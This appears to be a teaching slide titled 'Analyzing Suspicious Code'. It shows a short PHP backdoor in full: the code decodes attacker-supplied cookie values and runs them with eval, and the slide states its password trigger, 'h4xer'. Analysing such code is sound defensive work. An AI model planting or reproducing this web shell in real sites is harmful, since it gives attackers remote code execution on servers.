

# Analyzing Suspicious Code
$c='count';
$a=$_COOKIE;
if(reset($a)=='h4' && $c($a)>3){
$k='xer';
echo '<'.$k.'>';
eval(base64_decode(preg_replace(array('/[^\w=\s]/','/\s/'), array('','+'), join(array_slice($a,$c($a)-3)))));
echo '</'.$k.'>';
}

Password = h4xer